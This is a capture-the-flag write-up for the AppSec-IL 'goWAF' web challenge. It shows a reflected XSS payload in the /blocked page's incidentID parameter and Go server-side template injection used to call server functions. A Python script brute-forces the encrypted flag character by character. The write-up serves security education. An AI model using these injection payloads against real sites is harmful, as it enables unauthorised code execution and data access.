 # goWAF
* Category: Web
* 300 Points
* Solved by the JCTF Team

## Description
> I got hacked last week so I added a WAF to protect my site,
>
> Now I'm protected!


## Solution

We visit the attached website and get a login page.

Scanning through the sources, we see the following comment:

```html
    <!-- Generated by GoDoc https://127.0.0.1/docs -->
```

Let's try to visit `/docs`:

![](images/gowaf.png)

We get a documentation server with some strange functions.

We've waited enough, it's time to try and login. If we enter a blacklisted character as the username or password, we get blocked by the WAF:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl 'https://gowaf.appsecil.ctf.today/login'  --data-raw $'{"username":"\'","password":"123456"}'
{"isSuccess": false, "redirect": "/blocked?incidentID=%23089666"}
```

Following the redirect, we arrive to the WAF notice:

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
<head>
    <title>WAF 403 Forbidden</title>
    <style>body{font-family:sans-serif;font-size:13px;color:#000;}</style>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
</head>
<body bgcolor="white">
<br /><br /><br /><br />
    <center>Sorry <b>10.42.131.137</b>, your request cannot be processed.<br />
        For security reasons, it was blocked and logged.<br /><br />
        <!-- Unimportant Base64 encoded image, stripped for clarity -->
        <br /><br />
        If you believe this was an error please contact the<br />
        webmaster and enclose the following incident ID:<br /><br />[ <b>#089666</b> ]
    </center>
</body>
</html>
```

The first thing that we notice is that the `incidentID` parameter is included as-is in the webpage, allowing an easy XSS attack:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s "https://gowaf.appsecil.ctf.today/blocked?incidentID=<script>alert(1)</script>" | grep alert
        webmaster and enclose the following incident ID:<br /><br />[ <b><script>alert(1)</script></b> ]
```


However, we don't have anyone to send this URL to. 

The clue comes from the `/docs` page: Notice how the title of the page is `{{goWAF}}`. In Golang, this syntax is used for [templates](https://golang.org/pkg/text/template/). 

This means that we can send something like `{{action}}` and the action will be executed on the server-side, and returned to us as output.

For example:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{print "Test"}}' | grep Test
        webmaster and enclose the following incident ID:<br /><br />[ <b>Test</b> ]
```

We can call other functions, such as the ones we met in the `/docs` page:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{ReadFileEncrypted "flag"}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN</b> ]
```

We got the encrypted flag! Let's try to decrypt it:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Decrypt (ReadFileEncrypted "flag")}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>Only admins can use the decryption function</b> ]
```

No luck. Can we encrypt?

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "Test"}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>FRUDJw==</b> ]
```

So this is somehow encoded in some base. Let's try to encrypt our way to the expected output.

We'll have to make some assumptions. First, let's assume that the output is encoded in base64. 

For the first character, we'll try to encrypt every possible printable ASCII letter until we arrive to a result which if decoded as base64, is equal to the base64-decoded first character of the encrypted flag file we got.

Our first character after decoding as base64 is `0`:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# echo AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN | base64 -d | xxd -g 1
00000000: 00 00 00 00 00 00 00 00 00 00 0e 5d 09 5f 24 64  ...........]._$d
00000010: 1f 56 34 3e 55 09 46 4e 33 03 0d                 .V4>U.FN3..
```

Here's what we get if we encrypt 'z':

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "z"}}' | grep -Po '(?<=\[ <b>)([^<]+)(?=</b> \])' | base64 -d | xxd -g 1
00000000: 3b
```

And here's what we get if we encrypt 'A':
```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "A"}}' | grep -Po '(?<=\[ <b>)([^<]+)(?=</b> \])' | base64 -d | xxd -g 1
00000000: 00
```

So 'A' matches our first character of the flag.

We can automate this with a Python script:
```python
import requests
import string
import base64
import re

OUTPUT_REGEX = re.compile(r'\[ <b>([^<]+)</b> \]')
decode_func = base64.b64decode

def get_output(command):
    r = requests.get("https://gowaf.appsecil.ctf.today/blocked", params = {"incidentID": '{{' + command + '}}'})
    match = OUTPUT_REGEX.search(r.text)
    if match:
        return match.group(1)
    raise RuntimeError("Can't find output pattern")

encoded_flag = get_output('ReadFileEncrypted "flag"')
print("Encoded flag: {}".format(encoded_flag))

decoded_flag = decode_func(encoded_flag)

known = ""

print(f"Recovering output: {known}", end='', flush = True)

# Skip '"' and '\' which break the command syntax and are (hopefully) not needed
ALPHABET = set(string.ascii_letters + string.digits + string.punctuation) - set('"\\') 

for i in range(len(known), len(decoded_flag)):
    for c in ALPHABET:
        res = get_output(f'Encrypt "{known + c}"')
        decoded_res = decode_func(res)
        if decoded_res[i] == decoded_flag[i]:
            print(c, end = '', flush = True)
            known += c
            break

print()
```

Output:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# python3 solve.py
Encoded flag: AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN
Recovering output: AppSec-IL{G0G0P0w3rR4ng3rs}
```

The flag is `AppSec-IL{G0G0P0w3rR4ng3rs}`.

Fun fact: If we XOR the flag with the encrypted output, we get the key: `AppSec-IL{ImNotTheFlag!}`.
